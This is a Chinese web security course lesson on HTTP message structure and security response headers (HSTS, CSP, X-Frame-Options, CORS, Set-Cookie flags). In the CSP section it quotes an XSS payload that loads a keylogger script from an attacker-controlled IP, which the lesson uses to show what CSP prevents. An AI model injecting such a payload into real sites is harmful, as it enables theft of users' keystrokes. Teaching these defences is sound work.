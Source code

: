 你好，我是王昊天。

前几天，我在路上遇到了一个外国友人，他用英语问我如何前往上海火车站。我一时没缓过神，直接用中文回答他，乘坐一号线就可以到达。看着他迷茫的眼神，我反应了过来，接着赶忙用英语来回答他。还好我英文不错，他听懂了，在对我说了声谢谢后就走上了一号线。

事后，我反思了一下，我们人和人之间的沟通，其实都会按照一个隐形的协议去进行，例如我会中文和英文，外国友人却只会英文，所以我们就需要用英文才能进行沟通。

那么你知道我们是如何与Web应用进行有效通信的吗？事实上，我们与Web应用的交互也离不开一个广泛运用的协议—— HTTP协议。这个协议规定了，Web客户端如何从Web服务器请求Web页面，以及服务器如何把Web页面传送给客户端。

除了这些广为人知的作用，HTTP协议还能对Web应用提供一些安全支持。这一讲，我们就一起学习下HTTP协议对于安全有哪些支持。

## HTTP协议

首先，我们需要搞清楚什么是HTTP协议。

HTTP协议，即超文本传输协议Hyper Text Transfer Protocol。它是一个简单的请求-响应协议，且通常运行在TCP协议之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。这个协议是早期Web成功的有功之臣，因为 **它使开发和部署非常得直截了当**。

![图片](https://static001.geekbang.org/resource/image/45/91/45e83aa517d5cf1c279f10091cd32c91.jpg?wh=640x480)

在了解完HTTP协议的大致功能后，让我们一起看一个示例，了解HTTP协议所规定的消息样式。

这是我访问百度页面时，用BurpSuite捕获到的报文：

```plain
GET / HTTP/1.1
Host: www.baidu.com
Cookie: BIDUPSID=D6FC148CB0142694E6019498ECE6FA8F; PSTM=1644916942;
...
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

我们可以看到，这是一个请求报文，报文中第一行内容为HTTP请求的方式，以及所用到的HTTP协议版本。其它行都是定义的HTTP请求头信息，即HTTP Request Header信息。

将请求报文发出后，我们会收到Web应用返回的响应报文：

```plain
HTTP/1.1 200 OK
Bdpagetype: 1
Bdqid: 0xeafae0b1000f161a
Cache-Control: private
Content-Type: text/html;charset=utf-8
Date: Tue, 15 Feb 2022 12:35:42 GMT
Expires: Tue, 15 Feb 2022 12:35:31 GMT
Server: BWS/1.1
Set-Cookie: BDSVRTM=0; path=/
Set-Cookie: BD_HOME=1; path=/
Set-Cookie: H_PS_PSSID=35410_35104_31254_34584_35491_35872_35796_35324_26350_35746; path=/; domain=.baidu.com
Strict-Transport-Security: max-age=172800
...
<!DOCTYPE html><!--STATUS OK-->
<html>...</html>

```

我们可以发现，响应报文的第一行也是所使用的HTTP协议版本信息，后面会跟上响应的状态码。下面几行，会包含一些HTTP Response Header即HTTP响应头信息。最后， **从<html>标签开始，是响应页面的内容。**

到这里，我们已经知道了HTTP协议的作用，并且对HTTP请求报文和响应报文都有了一定的了解。接下来，让我们来学习HTTP Header中的安全标志，了解HTTP协议为了保证Web应用的安全做出了哪些应对措施。

## HTTP Header安全标志

HTTP协议可以分为请求与响应两部分，所以HTTP Header按照功能也可以分为HTTP请求头以及HTTP响应头。

其中请求头包含了有关要获取资源的客户端信息，而响应头则包含一些有关响应的附加信息。因此，有关安全的HTTP头，都被设在HTTP响应标头中。下面，让我们一起看几个典型的HTTP安全响应头，它们都是用于定义是否应在Web浏览器上激活一些安全预防措施。

### HSTS标志

HSTS标头即HTTP Strict Transport Security的简称， **它是Web应用使用最广泛的安全标志之一**。这个标志会告诉浏览器只能通过HTTPS协议访问当前资源，而不可以使用HTTP访问。

这里，我们来了解下什么是HTTPS协议。

这还要从HTTP协议说起，虽然HTTP协议使用极为广泛，但是却存在不小的安全缺陷，主要是其 **数据的明文传送和消息完整性检测的缺乏**，而这两点恰好是网络支付等新兴应用中安全方面最需要关注的。

关于HTTP的明文数据传输，最常用的攻击手法就是 **网络嗅探**。攻击者可以试图从传输过程当中分析出敏感的数据，例如从管理员对Web程序后台的登录过程中，攻击者可以从中获取网站的账号密码，从而获取网站管理权限。

另外，HTTP在传输客户端请求和服务端响应时，唯一的数据完整性检验就是在报文头部包含了本次传输数据的长度，而对内容是否被篡改不作确认。 因此攻击者可以轻易地发动中间人攻击，修改客户端和服务端传输的数据，甚至在传输数据中插入恶意代码只需要保证传输数据长度不变即可。

为了解决这个问题，HTTPS协议应运而生，它是由HTTP加上TLS/SSL协议构建的可进行加密传输、可检测消息完整性的网络协议。因此，当我们使用HTTPS访问一个页面时，会更有安全保障。

接下来，让我们通过一个示例，来体会HSTS标志的作用。

我们先使用HTTP协议访问百度，获取到如下报文：

![图片](https://static001.geekbang.org/resource/image/3d/e5/3dd1b273c62c68a4c00df7cf748501e5.png?wh=1596x1196)

从报文中，我们可以看到请求发出后，收到了响应302，这意味着需要进行跳转操作。从location信息中，我们发现它会跳转到百度的HTTPS服务。

![图片](https://static001.geekbang.org/resource/image/0e/56/0e00d79aa27dd50f285daf77a8774856.png?wh=1840x1222)

接着，我们果然看到一个发往https://www.baidu.com的请求报文，并且在请求报文中，配置了Strict-Transport-Security，并且给它赋值为max-age=172800，这意味着该配置的有效时间为172800秒，即48小时。

为了方便观察，我们清空HTTP history中的记录，再次用HTTP协议访问百度页面，获取到的记录如下：

![图片](https://static001.geekbang.org/resource/image/80/1d/8016539fbf1207c1e4b79bf485876d1d.png?wh=1500x1120)

可以看到我们的HTTP访问直接变为了更安全的HTTPS访问，这就是HSTS标志的作用。

到这里，我们已经学完了HTTP协议的第一个安全标志。接下来，让我们继续学习其他的安全标志。

### CSP标志

不知道你是否还记得CSP即Content-Security-Policy，我们在之前学习XSS攻击的防御时曾提到过这一防御方案。事实上，它也是一个HTTP安全响应头，我们可以利用它来定义页面可以加载哪些资源。

这么说可能有点抽象，下面让我们一起看一个示例，来帮助我们理解CSP的作用。

```plain
Content-Security-Policy: script-src 'self'

```

这是一个CSP标志配置示例，它的值为 `script-src 'self'`，这代表会对JavaScript代码的加载做一些限制，仅允许加载与Web页面相同来源的JavaScript代码。注意， **这里的相同来源指的是相同的协议、域名和端口。**

回顾我们用XSS攻击实现按键记录的过程，我们需要利用如下语句加载恶意服务器上的 `keylogger.js` 的内容，从而实现按键记录功能。

```javascript
<script%20src=http://192.168.3.193/keylogger.js></script>

```

可如果被攻击的Web应用添加了上述CSP策略，就会导致我们的JavaScript代码加载失败，从而无法实现我们的攻击行为。

下面，让我们继续学习X-Frame-Options安全标志的功能。

### X-Frame-Options标志

X-Frame-Options响应头也是一个重要的HTTP Header安全标志，它用来配置是否允许一个页面可在 <frame>、<iframe>、<embed> 或者 <object> 中展现设置的内容。

接下来，我们一起来看一个示例：

```plain
X-Frame-Options: DENY

```

在这个示例中，我们将它的值设为DENY，表示该页面不允许在frame等上述标签中展示任何内容。事实上，它还有两个可能取值SAMEORIGIN以及ALLOW-FROM uri。其中SAMEORIGIN代表仅允许在上述标签中展示与当前页面域名相同的内容，而ALLOW-FROM uri则代表仅允许在其中展示uri对应页面的内容。

还记得我们在XSS学习中，曾今利用XSS攻击实现了广告的植入操作，产生的效果如下图所示：

![图片](https://static001.geekbang.org/resource/image/60/81/605dcc52caa1ca45a6651cc185470081.png?wh=1269x686)

如果Web应用在响应中配置了这一标签，那么就可以有效地抵御广告的植入。

接下来，我们继续来学习另一个常用的HTTP协议响应头，即Access-Control-Allow-Origin，它可以用来进行资源的访问权限设置。

### Access-Control-Allow-Origin标志

Access-Control-Allow-Origin标志指定了该响应的资源是否被允许与给定的origin共享。

为了让你更好地理解，下面让我们一起来看一些示例：

```plain
Access-Control-Allow-Origin: *
# 或
Access-Control-Allow-Origin: https://mituan.zone

```

它有两种配置方式，第一种将它的值设为\*，这代表允许所有域名访问当前响应的资源。第二种将它的值设为一个具体的uri，这代表仅允许该域名访问当前响应的资源。因此， **Access-Control-Allow-Origin标志可以使网站之间安全地跨域获取资源。**

最后，我们来看一个相对熟悉一些的HTTP响应头Set-Cookie。

### Set-Cookie标志

在上一讲中，我们学习了保持登陆状态的认证，事实上，它就是通过Set-Cookie来实现的。

Set-Cookie标志不仅可以用来配置浏览器的Cookie信息，同时它还能对Cookie信息进行一些保护。下面，还是一起看一个示例：

```plain
Set-Cookie: <cookie-name>=<cookie-value>; Secure; HttpOnly

```

在这个示例中，我们写入了一个cookie的值，同时在后面加了两个配置项，Secure以及HttpOnly。其中Secure的作用是强制cookie只能在HTTPS环境下传递，而HttpOnly则可以禁止使用JavaScript去存取cookie。它们都可以有效地保护cookie信息，防止攻击者窃取cookie。

## 总结

在这一讲中，我们学习了HTTP Header对于Web提供的协议级别的安全支持。

首先，我们回顾了HTTP协议的内容，并对请求报文的格式以及响应报文的格式等基础知识进行了学习与回顾。

在学习基础知识的过程中，我们了解到在响应报文中，会存在一些HTTP Header信息。其中，有的HTTP Header内容可以对我们的Web应用进行保护。

最后我们对其中常用的五个典型HTTP Header进行了学习。它们分别为HSTS标志、CSP标志、X-Frame-Options标志、Access-Control-Allow-Origin标志以及Set-Cookie标志。在学习过程中，我们了解了它们的作用，并通过示例理解了它们的配置方式。

## 思考题

你知道还有哪些HTTP Header可以对Web应用提供安全支持吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！